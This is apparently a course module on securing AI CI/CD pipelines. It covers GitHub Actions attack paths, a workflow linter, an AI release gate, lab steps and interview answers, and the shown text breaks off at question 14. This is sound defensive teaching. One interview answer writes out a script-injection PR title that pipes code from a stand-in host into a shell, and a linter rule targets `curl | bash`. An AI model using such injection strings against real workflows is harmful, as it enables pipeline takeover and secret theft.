



# Secure AI Delivery Pipelines (CI/CD)

> **Module:** 06 · AI DevSecOps · **Week:** 24 (builds on weeks 21–22: secure AI SDLC and model provenance) · **Time:** ~12 hours
> **You will:** lint GitHub Actions workflows for the attacks that hit real projects, rebuild a release pipeline with every AI secure-delivery stage, and write an **AI release gate** that approves a model only when the AI-BOM and the eval evidence prove it is safe to ship.

| | |
|---|---|
| **Prerequisites** | Git and GitHub basics; YAML; the [prompt-injection lab](../../02-llm-security/prompt-injection/) (its test suite becomes a release gate here); the [Docker lesson](../docker/) for model scanning |
| **Lab** | [`lab/`](lab/): runs offline, no GitHub account needed |
| **Maps to** | OWASP LLM03:2025 Supply Chain · OWASP Top 10 CI/CD Security Risks · SLSA · NIST SP 800-218 / 800-218A (SSDF) · MITRE ATLAS AML.T0010 · NIST AI RMF *MEASURE* / *MANAGE* |

---

## 1. Why this matters

The pipeline is the most privileged "user" you have. It can push images, sign releases and deploy to production. Attackers know this.

- **2020, SolarWinds:** attackers compromised the build system and inserted a backdoor into software updates that were then signed and shipped to customers. The code in the repository looked clean; the build did not.
- **2021, Codecov:** attackers modified Codecov's Bash Uploader script. Thousands of CI pipelines that ran `curl … | bash` sent their environment variables (secrets) to the attacker for weeks.
- **2024, PyTorch self-hosted runners (research by John Stawinski and Adnan Khan):** the researchers showed that a pull request from a fork could run code on PyTorch's persistent self-hosted runners, and from there reach release credentials. It was reported and fixed.
- **2024, Ultralytics (YOLO):** attackers abused a privileged GitHub Actions workflow through an injection in a pull-request branch name, and malicious versions of the `ultralytics` package with a cryptominer were published to PyPI.
- **2025, `tj-actions/changed-files` (CVE-2025-30066):** an attacker changed the action's version tags to point to a malicious commit. Every workflow that used the action by tag printed its CI secrets into the build logs; for public repositories, those logs were public.

The pattern: **workflows trust code and text they don't control, and run it with powerful credentials.** For AI systems add one more: **a model can change without any code changing**, so the pipeline must test and track the model as a first-class artifact.

---

## 2. Understand it

### 2.1 The secure AI SDLC gates

Every stage of an AI system's life produces **evidence**. The pipeline's job is to collect it and refuse to continue without it.

| Stage | Security activity | Evidence |
|---|---|---|
| Intake | Intended use, data classes, owner, risk tier | AI system intake record |
| Design | Threat model, trust boundaries, privacy review | Approved design ([Module 01](../../01-ai-security-fundamentals/)) |
| Build | Secure coding, dependency control, secret scanning | CI results |
| Model / data | Provenance, licenses, integrity, evaluation | AI-BOM / model and data inventory |
| Test | SAST, DAST, prompt / RAG / agent red-team and abuse tests | Test and eval reports |
| Release | Policy gate, artifact signing, rollback plan | Release record, signatures, provenance |
| Operate | Telemetry, drift and abuse monitoring, incident response | Dashboards, runbooks |
| Retire | Revoke access, delete or retain data, archive evidence | Decommission record |

### 2.2 The pipeline, stage by stage



| # | Stage | Example tools | Blocks on |
|---|---|---|---|
| 1 | Secret scan | gitleaks, trufflehog, GitHub secret scanning + push protection | Any verified secret |
| 2 | SAST | Bandit, Semgrep, CodeQL | High-confidence high severity |
| 3 | Dependency audit | pip-audit, OSV-Scanner, Dependabot | Known-exploited / critical vulnerabilities |
| 4 | Unit + authorization tests | pytest | Any failure |
| 5 | **AI security eval** | The [prompt-injection regression suite](../../02-llm-security/prompt-injection/), RAG tenant-isolation tests, MCP/agent tool-authorization tests, garak, PyRIT, promptfoo | Hard-control tests < 100%; soft metrics under threshold |
| 6 | **Model scan + provenance** | `pickle_scan.py` ([Docker lesson](../docker/)), ModelScan; digest and source check | Unsafe format, unknown source, digest mismatch |
| 7 | Image build + scan | Docker/BuildKit, Trivy, Grype | Critical CVEs in reachable packages |
| 8 | SBOM + AI-BOM | Syft, CycloneDX tools | Missing BOM |
| 9 | Sign + provenance | cosign (Sigstore), GitHub artifact attestations, SLSA generator | Signing failure |
| 10 | **Release gate** | `release_gate.py` (this lab), OPA | Any missing or failed evidence |
| 11 | Deploy (protected environment) | Environments with required reviewers, OIDC to the cloud, signature verification at admission | No approval, unsigned image |
| 12 | Staging runtime tests | Smoke tests, connectivity tests (egress must fail), DAST | Any failure |

### 2.3 What makes AI pipelines different

1. **The model is an artifact with a supply chain.** Track it like a dependency: identifier, provider, version or revision, **digest**, format, source, license, base model, fine-tuning adapters and their config, tokenizer and runtime versions.
2. **Data has a supply chain too.** Dataset origin, license, collection method, classification, consent or legal basis, PII scrubbing, and a hash or snapshot ID.
3. **Behavior can change without a code change.** A new model version, a new prompt template, a new tool, or a provider-side model update. Each one must re-run the AI security eval suite.
4. **Evals are evidence only for the model they ran on.** An eval report must name the model digest. Last week's passing report says nothing about today's file.
5. **Some tests are probabilistic.** For real models, run each attack N times and track the success rate. Tests of *hard controls* (tool policy, output guard, authorization) must still be 100%.

### 2.4 AI-BOM, SBOM, provenance and signatures

| Artifact | Answers | Format examples |
|---|---|---|
| **SBOM** | Which software packages are in this image? | CycloneDX, SPDX |
| **AI-BOM** (ML-BOM) | Which model, which datasets, which licenses, what digest, which evals? | CycloneDX 1.5+ `machine-learning-model` and `data` components with a model card; SPDX 3.0 AI and Dataset profiles (check current versions) |
| **Provenance** (SLSA) | Which workflow, from which commit, built this artifact? | in-toto attestation with a SLSA provenance predicate |
| **Signature** | Is this exactly the artifact our pipeline produced? | Sigstore cosign (keyless: the workflow's OIDC identity gets a short-lived certificate; the signature is recorded in the Rekor transparency log) |

**SLSA** (Supply-chain Levels for Software Artifacts) defines build levels. In the v1.0 Build track: L1 = provenance exists, L2 = provenance is signed by a hosted build platform, L3 = the build platform is hardened so builds can't tamper with each other or the provenance. Check the current spec version.

### 2.5 GitHub Actions attack paths



| Rule | Sev | What it catches |
|---|---|---|
| GHA-001 | HIGH | Action pinned to a tag or branch instead of a full 40-character commit SHA |
| GHA-002 | MEDIUM | No `permissions:` block, `write-all`, or writes granted at workflow level |
| GHA-003 | CRITICAL | `pull_request_target` / `workflow_run` that checks out PR code ("pwn request") |
| GHA-004 | HIGH | `${{ github.event.…title/body/ref… }}` expanded inside `run:` or `script:` |
| GHA-005 | HIGH | Long-lived cloud keys from secrets instead of OIDC |
| GHA-006 | HIGH | Security step with `continue-on-error: true` or `\|\| true` |
| GHA-007 | HIGH | `curl \| bash` |
| GHA-008 | LOW | `actions/checkout` without `persist-credentials: false` |
| GHA-009 | MEDIUM | Release workflow missing a secure-delivery stage |
| GHA-010 | MEDIUM | Deploy job without a protected `environment:` |
| GHA-011 | HIGH | Self-hosted runner reachable from pull requests |

A YAML detail every tool must handle: YAML 1.1 parsers (including PyYAML) read the key `on:` as the boolean `true`. The linter reads `data.get("on", data.get(True))`.

### 2.6 The AI release gate



| Check | Evidence | Fails when |
|---|---|---|
| GATE-001 | AI-BOM SHA-256 + the real file | No digest, or the file's digest is different (tampered or wrong file) |
| GATE-002 | AI-BOM format | Not in the allowed list (default: safetensors only) |
| GATE-003 | AI-BOM distribution URL | Not from an approved registry |
| GATE-004 | AI-BOM signature property | Signature not verified |
| GATE-005 | AI-BOM scan verdict | Scan not `SAFE` |
| GATE-006 | Model + dataset licenses | Missing, unknown, or not approved |
| GATE-007 | Eval report model digest | Eval ran on a different model |
| GATE-008 | Eval `generated_at` | Older than 7 days, or missing |
| GATE-009 | Eval suites | Required suite missing; injection and leakage < 100%; jailbreak < 95% |
| GATE-010 | Dependency audit | Any critical vulnerability, or no audit result |

---

## 3. Defend it

| Layer | Control | Type | What it buys you |
|---|---|---|---|
| L1 | **Pin everything**: actions by SHA, images by digest, packages by hash; allowlist which actions may be used | Hard | Upstream tag hijacks can't change what runs |
| L2 | **Least-privilege tokens**: `permissions: contents: read` by default, writes per job; `persist-credentials: false` | Hard | A compromised step can't push or release |
| L3 | **No long-lived secrets**: OIDC to the cloud (trust on repo + environment), keyless signing | Hard | Nothing durable to steal |
| L4 | **Untrusted input handling**: `pull_request` for fork code, `env:` for event text, no self-hosted runners for PRs | Hard | Fork code and PR text can't reach secrets |
| L5 | **Blocking gates**: secret scan, SAST, dependency audit, model scan, AI eval, release gate; no `continue-on-error` | Hard | Known-bad releases stop |
| L6 | **Signed, attested artifacts**, verified at deploy and at admission | Hard | Only what the pipeline built can run |
| L7 | **Protected environments + branch protection**: required reviewers, required checks, CODEOWNERS on `.github/workflows/` | Process | A human approves production changes; workflow edits get security review |
| L8 | **Monitoring**: audit logs of workflow changes, secret-scanning alerts, OpenSSF Scorecard | Detect | You see drift and weak spots |

### Design patterns worth knowing

- **Split untrusted and privileged work.** Run PR code in a `pull_request` workflow with no secrets. If a privileged step (commenting, labeling, a GPU eval) is needed, a separate `workflow_run` workflow treats the first workflow's output as untrusted data and never runs PR code.
- **Plan with read, apply with write.** Separate jobs, separate cloud roles, and only the protected branch through a protected environment gets the write role (see TF-AI-042 in the [Terraform lesson](../terraform/)).
- **Fail closed on evidence.** "No report" is a failure, not a skip.
- **Exceptions are code.** Thresholds and waivers live in reviewed files with owners and expiry dates, not in someone's memory.
- **Eval on every behavior change.** Model version, prompt template, tool list, retrieval config, guardrail config: each triggers the AI eval suite, and the result is bound to the new digest.

### What does NOT work on its own

- Pinning only *your* actions. Third-party actions and their own dependencies matter most.
- Secret scanning without push protection or rotation. Detection after the push still means a leaked secret.
- A security job that "always passes" (`continue-on-error`, `|| true`). It gives false confidence.
- Signing without verification. If deploy and admission don't check the signature, the signature protects nothing.
- One giant pipeline identity with admin rights everywhere.

---

## 4. Hands-on lab

**Scenario:** the *support-llm* team's release workflow builds the model-server image and deploys it with static AWS keys. A separate bot evaluates every pull request on a self-hosted GPU runner. You harden both workflows and add an AI release gate.

| File | What it is |
|---|---|
| [`lab/vulnerable/release.yml`](lab/vulnerable/release.yml), [`pr-eval-bot.yml`](lab/vulnerable/pr-eval-bot.yml) | Risky workflows; each `VULN` names a rule |
| [`lab/secure/release.yml`](lab/secure/release.yml), [`pr-eval-bot.yml`](lab/secure/pr-eval-bot.yml) | Hardened workflows (placeholder SHAs, clearly fake) |
| [`lab/workflow_lint.py`](lab/workflow_lint.py) | The workflow linter: 11 rules |
| [`lab/release_gate.py`](lab/release_gate.py) | The AI release gate: 10 checks, JUnit import |
| [`lab/fixtures/`](lab/fixtures/) | Good/bad AI-BOMs, good/bad eval reports, a tiny `support-llm-v3.safetensors` |

### Step 1: Run the scorecard

```powershell
python 06-ai-devsecops/cicd/lab/demo.py
```

Expected output:

```text
rule     sev      title                                                            vulnerable  secure
-----------------------------------------------------------------------------------------------------
GHA-001  HIGH     Action not pinned to a full commit SHA                           FAIL x6     ok
GHA-002  MEDIUM   GITHUB_TOKEN permissions not least-privilege                     FAIL x2     ok
GHA-003  CRITICAL Privileged trigger checks out untrusted PR code ('pwn request')  FAIL x1     ok
GHA-004  HIGH     Untrusted input expanded inside a script                         FAIL x3     ok
GHA-005  HIGH     Long-lived cloud credentials                                     FAIL x2     ok
GHA-006  HIGH     Security gate cannot fail the build                              FAIL x1     ok
GHA-007  HIGH     Remote script piped to a shell                                   FAIL x1     ok
GHA-008  LOW      Checkout keeps the token on disk                                 FAIL x2     ok
GHA-009  MEDIUM   Release pipeline missing an AI secure-delivery stage             FAIL x6     ok
GHA-010  MEDIUM   Deploy job without a protected environment                       FAIL x1     ok
GHA-011  HIGH     Self-hosted runner reachable from pull requests                  FAIL x1     ok

release gate check                                            good   bad BOM  bad eval  tampered  old eval
----------------------------------------------------------------------------------------------------------
GATE-001 Model digest recorded and matches the artifact         ok      FAIL        ok      FAIL        ok
GATE-002 Model format is data-only (no pickle)                  ok      FAIL        ok        ok        ok
GATE-003 Model comes from an approved registry                  ok      FAIL        ok        ok        ok
GATE-004 Model signature verified                               ok      FAIL        ok        ok        ok
GATE-005 Model file scan is clean                               ok      FAIL        ok        ok        ok
GATE-006 Model and dataset licenses approved                    ok      FAIL        ok        ok        ok
GATE-007 Eval was run on THIS model digest                      ok      FAIL      FAIL        ok      FAIL
GATE-008 Eval evidence is fresh                                 ok        ok      FAIL        ok        ok
GATE-009 Required AI security suites pass                       ok        ok      FAIL        ok        ok
GATE-010 No critical dependency vulnerabilities                 ok        ok      FAIL        ok        ok
DECISION                                                      PASS     BLOCK     BLOCK     BLOCK     BLOCK

'tampered' = one bit flipped in the weights file. 'old eval' = tests ran on a previous model.
```

Look at the last two columns. Everything *looks* fine in both cases, and only one check catches each: the file digest (`tampered`) and the eval's model digest (`old eval`).

### Step 2: Lint the workflows

```powershell
python 06-ai-devsecops/cicd/lab/workflow_lint.py 06-ai-devsecops/cicd/lab/vulnerable/pr-eval-bot.yml
```

```text
HIGH     GHA-001  pr-eval-bot.yml:eval:actions/checkout@v4: 'actions/checkout@v4': a tag or branch can be moved to different code
HIGH     GHA-001  pr-eval-bot.yml:eval:Comment results: 'actions/github-script@v7': a tag or branch can be moved to different code
MEDIUM   GHA-002  pr-eval-bot.yml: permissions: write-all
CRITICAL GHA-003  pr-eval-bot.yml:eval:actions/checkout@v4: fork code runs with secrets and a write token
HIGH     GHA-004  pr-eval-bot.yml:eval:Run model eval on the PR's code: ${{ github.event.pull_request.title }} is pasted into code; pass it through env: instead
HIGH     GHA-004  pr-eval-bot.yml:eval:Comment results: ${{ github.event.pull_request.title }} is pasted into code; pass it through env: instead
LOW      GHA-008  pr-eval-bot.yml:eval:actions/checkout@v4: set persist-credentials: false so later steps can't read the token
HIGH     GHA-011  pr-eval-bot.yml:eval: PR code can persist on a self-hosted machine and reach its network

FAIL: 8 finding(s), fail-on=HIGH
```

Now lint the release workflow in release mode (`--release`), which also checks the delivery stages:

```powershell
python 06-ai-devsecops/cicd/lab/workflow_lint.py --release 06-ai-devsecops/cicd/lab/vulnerable/release.yml
python 06-ai-devsecops/cicd/lab/workflow_lint.py --release 06-ai-devsecops/cicd/lab/secure/release.yml 06-ai-devsecops/cicd/lab/secure/pr-eval-bot.yml
```

The first prints 18 findings, including six `GHA-009` lines (no secret scan, SAST, dependency audit, model scan, SBOM, signing). The second prints `PASS: 0 finding(s), fail-on=HIGH`.

Read [`lab/secure/release.yml`](lab/secure/release.yml) carefully. It has three jobs with different permissions: `verify` (read-only, no secrets), `build` (push, sign, attest), `deploy` (protected environment, OIDC, verify the signature before deploying).

### Step 3: Run the release gate

```powershell
python 06-ai-devsecops/cicd/lab/release_gate.py --bom 06-ai-devsecops/cicd/lab/fixtures/ai-bom.bad.json --eval 06-ai-devsecops/cicd/lab/fixtures/eval-report.bad.json --now 2026-11-18T09:00:00Z
```

```text
FAIL  GATE-001  Model digest recorded and matches the artifact  -> no SHA-256 hash in the AI-BOM
FAIL  GATE-002  Model format is data-only (no pickle)  -> format 'pickle'
FAIL  GATE-003  Model comes from an approved registry  -> source ['https://hub.example/random-user-4821/support-llm-finetune/pytorch_model.bin']
FAIL  GATE-004  Model signature verified  -> signature not verified
FAIL  GATE-005  Model file scan is clean  -> scan verdict 'UNSAFE'
FAIL  GATE-006  Model and dataset licenses approved  -> model license ['unknown']; dataset 'scraped-forum-posts' license missing
FAIL  GATE-007  Eval was run on THIS model digest  -> eval digest 5f0c1d2e3a4b... != BOM digest missing...
FAIL  GATE-008  Eval evidence is fresh  -> eval is 48.0 days old
FAIL  GATE-009  Required AI security suites pass  -> prompt_injection 91.7% < 100%; suite 'data_leakage' missing
FAIL  GATE-010  No critical dependency vulnerabilities  -> 1 critical vulnerabilities

RELEASE BLOCKED
```

Open the two AI-BOM fixtures side by side. The good one is a CycloneDX-style document with a `machine-learning-model` component (hash, license, distribution URL, model card) and a `data` component for the fine-tuning dataset.

### Step 4: Wire in a real test suite (Module 02 → Module 06)

This is how the prompt-injection regression suite from week 5 becomes a release gate. Run it with JUnit output, then give the result to the gate together with the real model file:

```powershell
python -m pytest 02-llm-security/prompt-injection --junitxml=$env:TEMP\prompt_injection.xml
python 06-ai-devsecops/cicd/lab/release_gate.py --bom 06-ai-devsecops/cicd/lab/fixtures/ai-bom.good.json --eval 06-ai-devsecops/cicd/lab/fixtures/eval-report.good.json --junit $env:TEMP\prompt_injection.xml --suite prompt_injection --model-file 06-ai-devsecops/cicd/lab/fixtures/support-llm-v3.safetensors
```

```text
.................                                                        [100%]
17 passed in 0.21s
ok    GATE-001  Model digest recorded and matches the artifact
ok    GATE-002  Model format is data-only (no pickle)
ok    GATE-003  Model comes from an approved registry
ok    GATE-004  Model signature verified
ok    GATE-005  Model file scan is clean
ok    GATE-006  Model and dataset licenses approved
ok    GATE-007  Eval was run on THIS model digest
ok    GATE-008  Eval evidence is fresh
ok    GATE-009  Required AI security suites pass
ok    GATE-010  No critical dependency vulnerabilities

RELEASE APPROVED
```

The JUnit results replace the `prompt_injection` suite in the report, and `generated_at` becomes "now". Your timing line will differ.

### Step 5: Run the tests

```powershell
python -m pytest 06-ai-devsecops/cicd -v
```

### Step 6: Break it yourself

Predict, then run:

1. In the secure `release.yml`, add `continue-on-error: true` to the AI security eval step. Which rule fires? Why is this the most tempting shortcut after a model upgrade?
2. Change `actions/checkout@1111…` to `actions/checkout@v4.2.2`. Is a *specific* version tag good enough? What happened with `tj-actions`?
3. In the secure `pr-eval-bot.yml`, move `${{ github.event.pull_request.title }}` from `env:` directly into the `echo`. Which rule fires? Write a PR title that would run a command (on paper only).
4. In a copy of `02-llm-security/prompt-injection/lab/secure_app.py`, change the default of `enforce_tool_policy` to `False`, re-run Step 4, and watch GATE-009 block the release. **Revert the change afterwards.** This is the whole point of the gate: a regression in a hard control can't ship.
5. In `eval-report.good.json`, change one character of `model.sha256`. Which check fails, and what real-world mistake does it represent?

### Step 7: Real tools (optional)

None of these is needed for the tests.

```powershell
pip install zizmor            # GitHub Actions security linter
zizmor 06-ai-devsecops/cicd/lab/vulnerable/
actionlint 06-ai-devsecops/cicd/lab/vulnerable/*.yml   # syntax + shellcheck of run: blocks (Go binary)
pip-audit -r requirements-dev.txt                      # dependency audit of this repo
syft dir:. -o cyclonedx-json > sbom.json               # an SBOM of this repo
```

In a real GitHub repository (your own fork of this repo), you can try keyless signing and verification of a container image with `cosign sign` / `cosign verify`, and `actions/attest-build-provenance` for SLSA provenance.

### Stretch goals

- Add **GATE-011**: the AI-BOM must name a `base-model` and that base model must be on an approved list.
- Make the gate read **several** JUnit files (`--junit prompt_injection=a.xml --junit data_leakage=b.xml`).
- Add **GHA-012**: `actions/cache` restore in a release workflow that also runs on `pull_request` (cache poisoning, as in the Ultralytics case).
- Turn `release_gate.py`'s policy into a JSON file with an owner and a review date, and add a test that fails if the review date is older than 6 months.

---

## 5. Real-world scenarios

**Scenario A: secrets in the build log.**
Your repository uses a popular third-party action by tag. One morning, its maintainers announce a compromise: for several hours, the tag pointed to code that printed secrets into logs.
- *What went wrong:* mutable tag + secrets available to every step + public logs.
- *Investigate:* search workflow runs in that window that used the action; read the logs for encoded secret blobs; list every secret those workflows could access.
- *Fix:* rotate every exposed secret (assume compromise). Pin all actions to SHAs, allowlist actions at the org level, replace cloud keys with OIDC, scope secrets to environments, and limit which jobs see them.

**Scenario B: "the eval passed".**
A new model version ships. A week later, an indirect prompt injection that was in the regression suite works in production. The release record says "AI eval: passed".
- *What went wrong:* the eval ran on the *previous* model (stale artifact in the eval job), or the eval step was `continue-on-error`, or the injection suite wasn't a required suite.
- *Investigate:* compare the eval report's model digest with the deployed digest; read the pipeline config history; re-run the suite on the deployed digest.
- *Fix:* GATE-007 (digest binding), GATE-009 (required suites at 100% for hard controls), GHA-006 in CI, and the deploy job deploys *by digest* only after the gate.

**Scenario C: the fork pull request that wanted a GPU.**
A contributor opens a PR that changes `conftest.py`. Your eval bot uses `pull_request_target` to run tests on a self-hosted GPU runner "so contributors get real eval numbers".
- *What went wrong:* fork code ran in a privileged context (secrets, write token) on a persistent machine inside your network. This is the pattern from the PyTorch runner research.
- *Investigate:* the workflow run's logs and the runner host: new processes, cron jobs, outbound connections, modified tool caches; tokens and secrets visible to that job.
- *Fix:* treat the runner as compromised and rebuild it. Move PR evals to `pull_request` on GitHub-hosted or ephemeral, isolated runners with no secrets. Run privileged GPU evals only after a maintainer approves, on a merged commit, or through a `workflow_run` design that never executes PR code.

---

## 6. Common mistakes

- Granting `permissions: write-all` "to fix a 403" instead of the one scope that was missing.
- Adding the AI eval suite but marking it non-blocking "until it is stable", forever.
- Signing images but deploying by tag. Deploy and verify **by digest**.
- One cloud role for every workflow and branch. Feature branches should never be able to assume the production deploy role.
- Keeping model files and datasets out of the inventory because "they're not code".
- Logging full prompts, documents or tokens in CI or eval reports. Eval artifacts often contain sensitive test data: treat them as such.

---

## 7. Interview preparation

<details><summary><b>Q1. Walk me through a secure release pipeline for an LLM application.</b></summary>

1. **Verify job**, read-only, no secrets: secret scan, SAST, dependency audit, unit and authorization tests, model scan, the AI security eval suite (prompt injection, data leakage, RAG tenant isolation, tool authorization), then the release gate over the AI-BOM and eval report.
2. **Build job**: build the image from pinned inputs, generate the SBOM, sign the image digest keylessly, and produce SLSA provenance.
3. **Deploy job**: runs in a protected environment with required reviewers, gets cloud credentials through OIDC, verifies the signature, and deploys by digest.
4. **Cluster**: admission control re-verifies the signature and pod policy.
5. **After deploy**: smoke tests, connectivity tests, monitoring.
</details>

<details><summary><b>Q2. Why pin GitHub Actions to a full commit SHA?</b></summary>

Tags and branches are movable pointers. If the action's repository or a maintainer's token is compromised, the attacker can move `v4` to malicious code, and every workflow using `@v4` runs it with that job's secrets. That's what happened with `tj-actions/changed-files` in March 2025. A full commit SHA is immutable. Pair pinning with an org-level action allowlist and a bot (Dependabot, Renovate) that proposes reviewed SHA updates.
</details>

<details><summary><b>Q3. What is a "pwn request"?</b></summary>

A workflow triggered by `pull_request_target` (or `workflow_run`) runs in the context of the *base* repository, with secrets and a write-capable token. If it then checks out and runs the PR's code (install, build, test), a stranger's fork code runs with those privileges. Fix: run untrusted code under `pull_request`, which gets no secrets and a read-only token from forks. Keep privileged steps in separate workflows that never execute PR code and treat PR artifacts as untrusted data.
</details>

<details><summary><b>Q4. Explain script injection in GitHub Actions and the fix.</b></summary>

`${{ … }}` expressions are expanded *before* the shell runs. If `run: echo "${{ github.event.pull_request.title }}"` gets a title like `x"; curl https://evil.example | sh; echo "`, the shell runs the attacker's command. Fix: pass untrusted values through `env:` (`TITLE: ${{ github.event.pull_request.title }}`) and use `"$TITLE"` in the script, so the shell treats it as data. The same applies to `actions/github-script`'s `script:` input.
</details>

<details><summary><b>Q5. How does OIDC from CI to the cloud work, and what is the common misconfiguration?</b></summary>

The job requests an OIDC token from GitHub (`permissions: id-token: write`). The token contains claims: repository, ref, environment, workflow. The cloud trusts GitHub's issuer, checks the audience, and the role's trust policy checks the **subject** (for example `repo:acme/support-llm:environment:production`), then returns credentials that last about an hour. The common mistake is checking only the audience, or using a wildcard subject: then any repository on GitHub can assume the role.
</details>

<details><summary><b>Q6. What is an AI-BOM and what would you put in it?</b></summary>

A bill of materials for the AI parts of a system, alongside the software SBOM. For each model: name, version or revision, digest, format, source or registry, license, base model, adapters and their config, tokenizer and runtime versions, and a model card (intended use, limitations). For each dataset: source, license, classification, legal basis or consent, PII handling, snapshot hash. Plus links to eval results and signatures. CycloneDX (1.5+) and SPDX (3.0) both have AI-specific structures.
</details>

<details><summary><b>Q7. SBOM, SLSA provenance and a signature: what does each prove?</b></summary>

- **SBOM**: what's *inside* the artifact (packages and versions). It helps you answer "are we affected by CVE-X?"
- **Provenance**: *how and where* it was built (workflow, commit, builder). It helps you answer "was this built by our pipeline from reviewed code?"
- **Signature**: *integrity and origin*: this exact digest was produced and signed by that identity.

You need all three, and something must **verify** them at deploy time.
</details>

<details><summary><b>Q8. Why must the eval report be bound to a model digest?</b></summary>

Because AI behavior depends on the exact weights, prompt template and config. An eval of yesterday's model, or of a different file with the same name, proves nothing about what is shipping. Binding the report to the digest, and checking that the digest equals both the AI-BOM entry and the actual file, turns "someone said the tests passed" into verifiable evidence.
</details>

<details><summary><b>Q9. How do you treat non-deterministic AI security tests in CI?</b></summary>

- Split them in two. **Hard-control tests**, such as "the tool call was blocked", "no canary in the output" or "no cross-tenant document", must be deterministic and 100%; run them against a mock model.
- **Model-behavior tests** against real models run each attack N times. Track the attack success rate against a threshold and a trend.
- Gate on hard controls always. Gate on behavior metrics with agreed thresholds.
- Treat a regression versus the last release as a blocker until someone triages it.
</details>

<details><summary><b>Q10. Self-hosted runners for GPU evals: what are the risks and controls?</b></summary>

Risks: persistence between jobs, access to the internal network and cloud metadata, cached credentials, and fork PRs running code there. Controls:

- Ephemeral runners (one job, then destroyed) in an isolated network with egress restrictions.
- Never for `pull_request` events from forks.
- Runner groups restricted to specific repositories and workflows.
- No long-lived secrets on the host.
- Monitoring of runner hosts.
</details>

<details><summary><b>Q11. Scenario: a developer says the AI eval "blocks every release" and wants it optional. What do you do?</b></summary>

1. Find out why it fails.
2. If a **hard-control test** is failing, the release really is unsafe, so it stays blocking.
3. If a probabilistic metric is flaky, fix the test design: N runs, a threshold, a stable mock for hard controls.
4. If a test is wrong, fix or remove it through review.
5. Offer a time-limited, recorded exception with an owner if business needs it, but never `continue-on-error` in the workflow.
6. Track the time to fix, and report exceptions to leadership.
</details>

<details><summary><b>Q12. What changes should trigger the AI security eval suite?</b></summary>

- A new model version, or a provider-side model alias change.
- System prompt or template changes.
- Tool or MCP server additions or permission changes.
- Retrieval configuration changes (index, chunking, filters).
- Guardrail or classifier changes.
- Dependency updates of the AI stack (model runtime, tokenizer, SDK).
- A new attack technique added to the suite after an incident.

Plus scheduled runs, because hosted models can change underneath you.
</details>

<details><summary><b>Q13. How do you protect the workflow files themselves?</b></summary>

- CODEOWNERS on `.github/workflows/` with security review.
- Branch protection with required checks, and an org-level action allowlist.
- Default read-only token, and environments with required reviewers for deploys.
- Workflow linting (zizmor, actionlint, this lab) on every PR.
- Audit-log alerts for workflow and secret changes.
- OpenSSF Scorecard to track posture over time.
</details>

<details><summary><b>Q14. Explain the release gate to an executive.</b></summary>

